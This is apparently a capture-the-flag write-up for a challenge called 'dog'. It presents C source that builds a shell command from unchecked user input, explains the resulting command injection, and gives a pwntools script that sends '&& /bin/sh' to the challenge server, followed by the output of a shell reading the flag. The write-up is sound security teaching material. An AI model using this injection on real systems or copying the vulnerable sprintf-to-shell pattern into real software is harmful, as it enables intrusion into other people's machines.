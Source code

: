 # dog Writeup

## Challenge infos

```text
cats? I prefer dogs
Challenge is running at: nc pwnable.co.il 9013
```

## Executable analysis

### main
```asm
void init_buffering() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    setvbuf(stderr, NULL, 2, 0);
    alarm(60);
}

int main() {
    char command[0x100];
    char name[0x20];
    init_buffering();
    memset(command, 0, 0x100);
    memset(name, 0, 0x20);
    puts("Hello!");
    puts("What's your name?");
    unsigned char length = read(0, name, 0x20);
    name[length-1] = '\x00';
    sprintf(command, "echo Hello %s", name);
    pid_t child = fork();
    if (child == 0) {
        execl("/bin/sh", "sh", "-c", command, NULL);
    } else {
        wait(NULL);
        puts("Thanks!");
    }
}
```
* the main function reads a name from the user, and then executes a command that echoes "Hello" followed by the name.
* the command is executed in a child process using `execl`, which replaces the child process with a new process running the shell.
* because there is no validation for the input, we can inject a command into the `name` variable, which will be executed by the shell.
* for example if we enter `&& /bin/sh`, the command will become `echo Hello && /bin/sh`, which will execute a shell after the echo command.

### exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template dog
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'dog')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9013, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

io.sendlineafter(b'your name?\n', b'&& /bin/sh')

io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9013: Done
[*] Switching to interactive mode
Hello
$ ls
dog
flag
ynetd
$ cat flag
PWNIL{flag_is_here}
```
